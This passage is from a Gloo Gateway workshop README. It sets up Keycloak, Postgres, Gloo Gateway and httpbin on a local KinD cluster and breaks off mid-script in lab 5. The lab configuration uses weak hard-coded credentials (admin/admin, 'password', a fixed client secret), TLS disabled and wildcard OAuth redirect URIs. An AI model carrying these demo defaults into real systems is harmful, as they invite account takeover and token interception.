

<!--bash
source ./scripts/assert.sh
-->


<center>

</center>

# <center>Gloo Gateway Workshop</center>


## Table of Contents
* [Introduction](#introduction)
* [Lab 1 - Deploy KinD Cluster(s)](#lab-1---deploy-kind-cluster(s)-)
* [Lab 2 - Deploy Keycloak](#lab-2---deploy-keycloak-)
* [Lab 3 - Deploy Gloo Gateway](#lab-3---deploy-gloo-gateway-)
* [Lab 4 - Deploy the httpbin demo app](#lab-4---deploy-the-httpbin-demo-app-)
* [Lab 5 - Expose the httpbin application through the gateway](#lab-5---expose-the-httpbin-application-through-the-gateway-)
* [Lab 6 - Delegate with control](#lab-6---delegate-with-control-)
* [Lab 7 - Modify the requests and responses](#lab-7---modify-the-requests-and-responses-)
* [Lab 8 - Securing the access with OAuth](#lab-8---securing-the-access-with-oauth-)
* [Lab 9 - Use the transformation filter to manipulate headers](#lab-9---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 10 - Apply rate limiting to the Gateway](#lab-10---apply-rate-limiting-to-the-gateway-)
* [Lab 11 - Use the JWT filter to validate JWT and create headers from claims](#lab-11---use-the-jwt-filter-to-validate-jwt-and-create-headers-from-claims-)
* [Lab 12 - Use the Web Application Firewall filter](#lab-12---use-the-web-application-firewall-filter-)
* [Lab 13 - Deploy the World Cities sample application](#lab-13---deploy-the-world-cities-sample-application-)
* [Lab 14 - Expose a SOAP service as REST](#lab-14---expose-a-soap-service-as-rest-)
* [Lab 15 - Deploy the Bookinfo sample application](#lab-15---deploy-the-bookinfo-sample-application-)
* [Lab 16 - Expose the productpage API securely](#lab-16---expose-the-productpage-api-securely-)
* [Lab 17 - Expose an external API and stitch it with the productpage API](#lab-17---expose-an-external-api-and-stitch-it-with-the-productpage-api-)
* [Lab 18 - Expose the dev portal backend](#lab-18---expose-the-dev-portal-backend-)
* [Lab 19 - Deploy and expose the dev portal frontend](#lab-19---deploy-and-expose-the-dev-portal-frontend-)
* [Lab 20 - Expose a SOAP service in the portal with OpenAPI](#lab-20---expose-a-soap-service-in-the-portal-with-openapi-)
* [Lab 21 - Demonstrate the self service capabilities](#lab-21---demonstrate-the-self-service-capabilities-)
* [Lab 22 - Deploy OpenTelemetry Collector](#lab-22---deploy-opentelemetry-collector-)


## Introduction <a name="introduction"></a>

<a href="https://www.solo.io/products/gloo-gateway/">Gloo Gateway</a> is a feature-rich, fast, and flexible Kubernetes-native ingress controller and next-generation API gateway that is built on top of <a href="https://www.envoyproxy.io/">Envoy proxy</a> and the <a href="https://gateway-api.sigs.k8s.io/">Kubernetes Gateway API</a>).

Gloo Gateway is fully conformant with the Kubernetes Gateway API and extends its functionality with Solo’s custom Gateway APIs, such as `RouteOption`, `VirtualHostOption`, `Upstream`s, `RateLimitConfig`, or `AuthConfig`.
These resources help to centrally configure routing, security, and resiliency rules for a specific component, such as a host, route, or gateway listener.

These capabilities are grouped into two editions of Gloo Gateway:

### Open source (OSS) Gloo Gateway

Use Kubernetes Gateway API-native features and the following Gloo Gateway extensions to configure basic routing, security, and resiliency capabilities:

* Access logging
* Buffering
* Cross-Origin Resource Sharing (CORS)
* Cross-Site Request Forgery (CSRF)
* Fault injection
* Header control
* Retries
* Timeouts
* Traffic tapping
* Transformations

### Gloo Gateway Enterprise Edition

In addition to the features provided by the OSS edition, many more features are available in the Enterprise Edition, including:

* External authentication and authorization
* External processing
* Data loss prevention
* Developer portal
* JSON web token (JWT)
* Rate limiting
* Response caching
* Web Application Filters

### Want to learn more about Gloo Gateway?

In the labs that follow we present some of the common patterns that our customers use and provide a good entry point into the workings of Gloo Gateway.

You can find more information about Gloo Gateway in the official documentation: <https://docs.solo.io/gateway/>.


## Lab 1 - Deploy KinD Cluster(s) <a name="lab-1---deploy-kind-cluster(s)-"></a>


Clone this repository and go to the directory where this `README.md` file is.


Set the context environment variables:

```bash
export CLUSTER1=cluster1
```

Deploy the KinD clusters:

```bash
bash ./data/steps/deploy-kind-clusters/deploy-cluster1.sh
```
Then run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh cluster1
```

**Note:** If you run the `check.sh` script immediately after the `deploy.sh` script, you may see a jsonpath error. If that happens, simply wait a few seconds and try again.

Once the `check.sh` script completes, execute the `kubectl get pods -A` command, and verify that all pods are in a running state.
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Clusters are healthy", () => {
    const clusters = ["cluster1"];

    clusters.forEach(cluster => {
        it(`Cluster ${cluster} is healthy`, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "default", k8sType: "service", k8sObj: "kubernetes" }));
    });
});
EOF
echo "executing test dist/document/build/templates/steps/deploy-kind-clusters/tests/cluster-healthy.test.js.liquid from lab number 1"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 1"; exit 1; }
-->


## Lab 2 - Deploy Keycloak <a name="lab-2---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users.

OpenID Connect (OIDC) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-Based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to set up OIDC workflows later.

But, first of all, we're going to deploy Keycloak to persist the data if Keycloak restarts.

```bash
kubectl --context ${CLUSTER1} create namespace gloo-system
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: postgres
  namespace: gloo-system
---
apiVersion: v1
kind: Secret
metadata:
  name: postgres-secrets
  namespace: gloo-system
type: Opaque
data:
  POSTGRES_DB: ZGI=
  POSTGRES_USER: YWRtaW4=
  POSTGRES_PASSWORD: YWRtaW4=
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: postgres-pvc
  namespace: gloo-system
spec:
  accessModes:
    - ReadWriteOnce
  resources:
    requests:
      storage: 5Gi
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: postgres
  namespace: gloo-system
spec:
  replicas: 1
  selector:
    matchLabels:
      app: postgres
  template:
    metadata:
      labels:
        app: postgres
    spec:
      serviceAccountName: postgres
      volumes:
        - name: postgres-storage
          persistentVolumeClaim:
            claimName: postgres-pvc
      containers:
        - name: postgres
          image: postgres:13.2-alpine
          imagePullPolicy: 'IfNotPresent'
          ports:
            - containerPort: 5432
          envFrom:
            - secretRef:
                name: postgres-secrets
          volumeMounts:
            - name: postgres-storage
              mountPath: /var/lib/postgresql/data
              subPath: postgres
---
apiVersion: v1
kind: Service
metadata:
  name: postgres
  namespace: gloo-system
spec:
  selector:
    app: postgres
  ports:
    - port: 5432
EOF
```

Wait while Postgres finishes rolling out:

```bash
kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy/postgres

sleep 5
```

Create the database and user for Keycloak:

```bash
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "CREATE DATABASE keycloak;"
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "CREATE USER keycloak WITH PASSWORD 'password';"
kubectl --context ${CLUSTER1} -n gloo-system exec deploy/postgres -- psql -U admin -d db -c "GRANT ALL PRIVILEGES ON DATABASE keycloak TO keycloak;"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Postgres", () => {
  it('postgres pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "gloo-system", k8sObj: "postgres" }));
});
EOF
echo "executing test dist/document/build/templates/steps/deploy-keycloak/tests/postgres-available.test.js.liquid from lab number 2"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 2"; exit 1; }
-->

First, we need to define an ID and secret for a "client", which will be the service that delegates to Keycloak for authorization:

```bash
KEYCLOAK_CLIENT=gloo-ext-auth
KEYCLOAK_SECRET=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri
```

We need to store these in a secret accessible by the ext auth service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: gloo-system
type: extauth.solo.io/oauth
stringData:
  client-id: ${KEYCLOAK_CLIENT}
  client-secret: ${KEYCLOAK_SECRET}
EOF
```

We need to supply the initial configuration of the realm we'll use for these labs.
This will include the client with the ID and secret we defined above, as well as two users that we can use later:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

Create this configuration in a `ConfigMap`:

```bash
kubectl --context ${CLUSTER1} create namespace keycloak

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
data:
  workshop-realm.json: |-
    {
      "realm": "workshop",
      "enabled": true,
      "displayName": "solo.io",
      "accessTokenLifespan": 1800,
      "sslRequired": "none",
      "users": [
        {
          "username": "user1",
          "enabled": true,
          "email": "user1@example.com",
          "attributes": {
            "group": [
              "users"
            ],
            "subscription": [
              "enterprise"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"JsfNbCOIdZUbyBJ+BT+VoGI91Ec2rWLOvkLPDaX8e9k=\",\"salt\":\"P5rtFkGtPfoaryJ6PizUJw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        },
        {
          "username": "user2",
          "enabled": true,
          "email": "user2@solo.io",
          "attributes": {
            "group": [
              "users"
            ],
            "subscription": [
              "free"
            ],
            "show_personal_data": [
              "false"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData": "{\"value\":\"RITBVPdh5pvXOa4JzJ5pZTE0rG96zhnQNmSsKCf83aU=\",\"salt\":\"drB9e5Smf3cbfUfF3FUerw==\",\"additionalParameters\":{}}",
              "credentialData": "{\"hashIterations\":27500,\"algorithm\":\"pbkdf2-sha256\",\"additionalParameters\":{}}"
            }
          ]
        },
        {
          "username": "admin1",
          "enabled": true,
          "email": "admin1@solo.io",
          "attributes": {
            "group": [
              "admin"
            ],
            "show_personal_data": [
              "false"
            ]
          },
          "credentials": [
            {
              "type": "password",
              "secretData" : "{\"value\":\"BruFLfFkjH/8erZ26NnrbkOrWiZuQyDRCHD9o0R6Scg=\",\"salt\":\"Cf9AYCE5pAbb4CKEF0GUTA==\",\"additionalParameters\":{}}",
              "credentialData" : "{\"hashIterations\":5,\"algorithm\":\"argon2\",\"additionalParameters\":{\"hashLength\":[\"32\"],\"memory\":[\"7168\"],\"type\":[\"id\"],\"version\":[\"1.3\"],\"parallelism\":[\"1\"]}}"
            }
          ]
        }
      ],
      "clients": [
        {
          "clientId": "${KEYCLOAK_CLIENT}",
          "secret": "${KEYCLOAK_SECRET}",
          "redirectUris": [
            "*"
          ],
          "webOrigins": [
            "+"
          ],
          "authorizationServicesEnabled": true,
          "directAccessGrantsEnabled": true,
          "serviceAccountsEnabled": true,
          "protocolMappers": [
            {
              "name": "group",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "group",
                "user.attribute": "group",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "show_personal_data",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "show_personal_data",
                "user.attribute": "show_personal_data",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "subscription",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-attribute-mapper",
              "config": {
                "claim.name": "subscription",
                "user.attribute": "subscription",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            },
            {
              "name": "name",
              "protocol": "openid-connect",
              "protocolMapper": "oidc-usermodel-property-mapper",
              "config": {
                "claim.name": "name",
                "user.attribute": "username",
                "access.token.claim": "true",
                "id.token.claim": "true"
              }
            }
          ]
        }
      ],
      "components": {
        "org.keycloak.userprofile.UserProfileProvider": [
          {
            "providerId": "declarative-user-profile",
            "config": {
              "kc.user.profile.config": [
                "{\"attributes\":[{\"name\":\"username\"},{\"name\":\"email\"}],\"unmanagedAttributePolicy\":\"ENABLED\"}"
              ]
            }
          }
        ]
      }
    }
  portal-realm.json: |
    {
      "realm": "portal-mgmt",
      "enabled": true,
      "sslRequired": "none",
      "roles": {
        "client": {
          "gloo-portal-idp": [
            {
              "name": "uma_protection",
              "composite": false,
              "clientRole": true,
              "attributes": {}
            }
          ]
        },
        "realm": [
          {
            "name": "default-roles-portal-mgmt",
            "description": "${role_default-roles}",
            "composite": true,
            "composites": {
              "realm": [
                "offline_access",
                "uma_authorization"
              ],
              "client": {
                "account": [
                  "manage-account",
                  "view-profile"
                ]
              }
            },
            "clientRole": false,
            "attributes": {}
          },
          {
            "name": "uma_authorization",
            "description": "${role_uma_authorization}",
            "composite": false,
            "clientRole": false
          }
        ]
      },
      "users": [
        {
          "username": "service-account-gloo-portal-idp",
          "createdTimestamp": 1727724261768,
          "emailVerified": false,
          "enabled": true,
          "totp": false,
          "serviceAccountClientId": "gloo-portal-idp",
          "disableableCredentialTypes": [],
          "requiredActions": [],
          "realmRoles": [
            "default-roles-portal-mgmt"
          ],
          "clientRoles": {
            "realm-management": [
              "manage-clients"
            ],
            "gloo-portal-idp": [
              "uma_protection"
            ]
          },
          "notBefore": 0,
          "groups": []
        }
      ],
      "clients": [
        {
          "clientId": "gloo-portal-idp",
          "enabled": true,
          "name": "Solo.io Gloo Portal Resource Server",
          "clientAuthenticatorType": "client-secret",
          "secret": "gloo-portal-idp-secret",
          "serviceAccountsEnabled": true,
          "authorizationServicesEnabled": true,
          "authorizationSettings": {
            "allowRemoteResourceManagement": true,
            "policyEnforcementMode": "ENFORCING",
            "resources": [
              {
                "name": "Default Resource",
                "type": "urn:gloo-portal-idp:resources:default",
                "ownerManagedAccess": false,
                "attributes": {},
                "uris": [
                  "/*"
                ]
              }
            ],
            "policies": [
              {
                "name": "Default Policy",
                "description": "A policy that grants access only for users within this realm",
                "type": "regex",
                "logic": "POSITIVE",
                "decisionStrategy": "AFFIRMATIVE",
                "config": {
                  "targetContextAttributes" : "false",
                  "pattern" : ".*",
                  "targetClaim" : "sub"
                }
              },
              {
                "name": "Default Permission",
                "description": "A permission that applies to the default resource type",
                "type": "resource",
                "logic": "POSITIVE",
                "decisionStrategy": "UNANIMOUS",
                "config": {
                  "defaultResourceType": "urn:gloo-portal-idp:resources:default",
                  "applyPolicies": "[\"Default Policy\"]"
                }
              }
            ],
            "scopes": [],
            "decisionStrategy": "UNANIMOUS"
          }
        }
      ]
    }
kind: ConfigMap
metadata:
  name: realms
  namespace: keycloak
EOF
```

Now let's install Keycloak:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  selector:
    app: keycloak
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  replicas: 1
  selector:
    matchLabels:
      app: keycloak
  template:
    metadata:
      labels:
        app: keycloak
    spec:
      containers:
      - name: keycloak
        image: quay.io/keycloak/keycloak:25.0.5
        args:
        - start-dev
        - --import-realm
        - --proxy-headers=xforwarded
        - --features=hostname:v1
        - --hostname-strict=false
        - --hostname-strict-https=false
        env:
        - name: KEYCLOAK_ADMIN
          value: admin
        - name: KEYCLOAK_ADMIN_PASSWORD
          value: admin
        - name: KC_DB
          value: postgres
        - name: KC_DB_URL
          value: jdbc:postgresql://postgres.gloo-system.svc.cluster.local:5432/keycloak
        - name: KC_DB_USERNAME
          value: keycloak
        - name: KC_DB_PASSWORD
          value: password
        ports:
        - name: http
          containerPort: 8080
        readinessProbe:
          httpGet:
            path: /realms/workshop
            port: 8080
        volumeMounts:
        - name: realms
          mountPath: /opt/keycloak/data/import
      volumes:
      - name: realms
        configMap:
          name: realms
EOF
```

Wait while Keycloak finishes rolling out:

```bash
kubectl --context ${CLUSTER1} -n keycloak rollout status deploy/keycloak
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/document/build/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid from lab number 2"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 2"; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/document/build/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid from lab number 2"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 2"; exit 1; }
-->
<!--bash
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done"
-->

Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${CLUSTER1} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].ip}{.status.loadBalancer.ingress[0].hostname}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK%:*})
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK##*:})
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./default/tests/can-resolve.test.js.liquid from lab number 2"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 2"; exit 1; }
-->
<!--bash
echo "Waiting for Keycloak to be ready at $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token"
timeout 300 bash -c 'while [[ "$(curl -m 2 -s -o /dev/null -w ''%{http_code}'' $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token)" != "405" ]]; do printf '.';sleep 1; done' || false
-->


## Lab 3 - Deploy Gloo Gateway <a name="lab-3---deploy-gloo-gateway-"></a>

You can deploy Gloo Gateway with the `glooctl` CLI or declaratively using Helm.

We're going to use the Helm option.

Install the Kubernetes Gateway API CRDs as they do not come installed by default on most Kubernetes clusters.

```bash
kubectl --context $CLUSTER1 apply -f https://github.com/kubernetes-sigs/gateway-api/releases/download/v1.2.0/experimental-install.yaml
```


We need to create a secret to let the Gateway Portal know how to connect to Postgres

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: portal-database-config
  namespace: gloo-system
type: Opaque
data:
  config.yaml: |
    ZHNuOiBob3N0PXBvc3RncmVzLmdsb28tc3lzdGVtLnN2Yy5jbHVzdGVyLmxvY2FsIHBvcnQ9NTQzMiB1c2VyPWFkbWluIHBhc3N3b3JkPWFkbWluIGRibmFtZT1kYiBzc2xtb2RlPWRpc2FibGUK
EOF
```


Next, install Gloo Gateway. This command installs the Gloo Gateway control plane into the namespace `gloo-system`.

```bash

helm repo add gloo-ee-helm https://storage.googleapis.com/gloo-ee-helm
helm repo update

helm upgrade -i -n gloo-system \
  gloo-gateway gloo-ee-helm/gloo-ee \
  --create-namespace \
  --version 1.18.8 \
  --kube-context $CLUSTER1 \
  --set-string license_key=$LICENSE_KEY \
  -f -<<EOF

gloo:
  kubeGateway:
    enabled: true
    portal:
      enabled: true
  gatewayProxies:
    gatewayProxy:
      disabled: true
  gateway:
    validation:
      allowWarnings: true
      alwaysAcceptResources: false
  gloo:
    logLevel: info
    deployment:
      livenessProbeEnabled: true
  discovery:
    enabled: false
observability:
  enabled: false
prometheus:
  enabled: false
grafana:
  defaultInstallationEnabled: false
gloo-fed:
  enabled: false
  glooFedApiserver:
    enable: false
gateway-portal-web-server:
  enabled: true
  glooPortalServer:
    database:
      type: postgres
EOF
```


Run the following command to check that the Gloo Gateway pods are running:

<!--bash
echo -n Waiting for Gloo Gateway pods to be ready...
kubectl --context $CLUSTER1 -n gloo-system rollout status deployment
-->
```bash
kubectl --context $CLUSTER1 -n gloo-system get pods
```

Here is the expected output:

```,nocopy
NAME                                         READY   STATUS      RESTARTS   AGE
caching-service-79cf55ccbb-dcvgp             1/1     Running     0          69s
extauth-58f68c5cd5-gxgxc                     1/1     Running     0          69s
gateway-portal-web-server-5c5d58d8d5-7lzwg   1/1     Running     0          69s
gloo-7d8994697-lfg5x                         1/1     Running     0          69s
gloo-resource-rollout-check-x8b77            0/1     Completed   0          69s
gloo-resource-rollout-cjtgh                  0/1     Completed   0          69s
rate-limit-6db9c67794-vf7h2                  1/1     Running     0          69s
redis-6c7c489d8c-g2dhc                       1/1     Running     0          69s
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Gloo Gateway", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["gloo", "extauth", "rate-limit", "redis"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-system", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/document/build/templates/steps/deploy-gloo-gateway-enterprise/tests/check-gloo.test.js.liquid from lab number 3"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 3"; exit 1; }
-->


## Lab 4 - Deploy the httpbin demo app <a name="lab-4---deploy-the-httpbin-demo-app-"></a>


We're going to deploy the httpbin application to demonstrate several features of Gloo Gateway.

You can find more information about this application [here](http://httpbin.org/).

Run the following commands to deploy the httpbin app twice (`httpbin1` and `httpbin2`).

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl --context ${CLUSTER1} apply -f data/steps/deploy-httpbin/app-httpbin1.yaml
kubectl --context ${CLUSTER1} apply -f data/steps/deploy-httpbin/app-httpbin2.yaml
```

<details>
  <summary>Show yaml files</summary>

```yaml
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: httpbin1
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: httpbin1
  namespace: httpbin
  labels:
    app: httpbin1
    service: httpbin1
spec:
  ports:
  - name: http
    port: 8000
    targetPort: http
    protocol: TCP
    appProtocol: http
  selector:
    app: httpbin1
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: httpbin1
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin1
      version: v1
  template:
    metadata:
      labels:
        app: httpbin1
        version: v1
    spec:
      serviceAccountName: httpbin1
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.14.0
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: httpbin2
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: httpbin2
  namespace: httpbin
  labels:
    app: httpbin2
    service: httpbin2
spec:
  ports:
  - name: http
    port: 8000
    targetPort: http
    protocol: TCP
    appProtocol: http
  selector:
    app: httpbin2
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: httpbin2
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin2
      version: v1
  template:
    metadata:
      labels:
        app: httpbin2
        version: v1
    spec:
      serviceAccountName: httpbin2
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.14.0
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
```
</details>

You can follow the progress using the following command:

<!--bash
echo -n Waiting for httpbin pods to be ready...
kubectl --context ${CLUSTER1} -n httpbin rollout status deployment
-->
```bash,noexecute
kubectl --context ${CLUSTER1} -n httpbin get pods
```

Here is the expected output when both Pods are ready:

```,nocopy
NAME                        READY   STATUS    RESTARTS   AGE
httpbin1-7fdbf6498-ms7qt    1/1     Running   0          94s
httpbin2-655777b846-6nrms   1/1     Running   0          93s
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["httpbin1", "httpbin2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid from lab number 4"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 4"; exit 1; }
-->


## Lab 5 - Expose the httpbin application through the gateway <a name="lab-5---expose-the-httpbin-application-through-the-gateway-"></a>


The team in charge of the gateway can create a `Gateway` resource and configure an HTTP listener.


```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
kind: Gateway
apiVersion: gateway.networking.k8s.io/v1
metadata:
  name: http
  namespace: gloo-system
spec:
  gatewayClassName: gloo-gateway
  listeners:
  - protocol: HTTP
    port: 80
    name: http
    allowedRoutes:
      namespaces:
        from: All
EOF
```

Note that application teams can create and attach their `HTTPRoute` to this gateway.

An application team can create an `HTTPRoute` resource to expose the `httpbin` app on the gateway.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: http
  hostnames:
    - "httpbin.example.com"
  rules:
    - backendRefs:
        - name: httpbin1
          port: 8000
EOF
```


Set the environment variable for the service corresponding to the gateway:

```bash
export PROXY_IP=$(kubectl --context ${CLUSTER1} -n gloo-system get svc gloo-proxy-http -o jsonpath='{.status.loadBalancer.ingress[0].ip}{.status.loadBalancer.ingress[0].hostname}')
```

<!--bash
RETRY_COUNT=0
MAX_RETRIES=60
GLOO_PROXY_SVC=$(kubectl --context ${CLUSTER1} -n gloo-system get svc gloo-proxy-http -oname)
while [[ -z "$PROXY_IP" && $RETRY_COUNT -lt $MAX_RETRIES && $GLOO_PROXY_SVC ]]; do
